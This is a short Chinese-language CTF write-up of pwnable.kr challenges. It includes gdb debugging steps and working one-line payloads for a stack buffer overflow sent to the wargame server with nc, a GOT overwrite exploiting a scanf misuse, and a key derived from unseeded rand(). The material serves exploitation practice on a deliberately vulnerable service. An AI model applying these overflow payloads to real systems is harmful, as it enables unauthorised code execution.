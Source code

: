 # pwnable.kr

## fd

## collision

## bof

-   动态调试
    -   设置断点: `b main`
    -   开始运行: `r`
    -   单步调试: `n`
    -   单步步入：`s`
    -   创建一个64字节的测试 payload: `pattern create 64`
    -   查看目标地址: `p $ebp+0x8`
    -   查看地址状态: `telescope 25`
    -   故构造payload: `(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000`
-   静态调试
    -   `s=$esp+1ch`
    -   `a1=$esp+50h`
    -   `payload = 'j' * 52 + p32(key)`

## flag

-   `upx -q -d flag -ofalg_upx`

## passcode

-   `name`可溢出
-   `scanf`使用错误，导致将输入值写入到`passcod1`的值所代表的地址上（即`passcode1`的地址上存的内容将被视为输入的目标地址）
    -   `mov edx, [ebp+var_10]`应为`lea edx, [ebp+var_10]`
-   利用`name`溢出将`passcode1`内容覆盖为`GOT`内某个函数的地址，然后输入值设为某个想要作为替代（可获得flag）的代码地址
-   `python -c "print 'j'*0x60+'\x04\xa0\x04\x08'+ '134514147\n'" | ./passcode`

## random

-   `rand()` 若没有提供参数会在当前环境使用同一随机种子来生成随机数
-   而通过测试，服务器上 `rand()` 生成的默认随机数值为 `1804289383`, 故 `key = 1804289383 ^ 0xdeadbeef = 3039230856`
